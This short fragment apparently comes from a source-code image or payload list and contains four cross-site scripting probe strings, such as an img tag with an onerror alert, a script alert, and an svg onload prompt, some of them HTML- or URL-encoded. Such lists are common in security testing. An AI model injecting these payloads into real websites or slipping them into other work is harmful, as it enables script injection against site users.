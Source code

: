 # &lt;img src=x onerror=alert(1)
"&lt;script>alert('test')<%2Fscript>"
&lt;img/src=x/on-error="alert(1)</script>
"><svg/onload=prompt(0)>
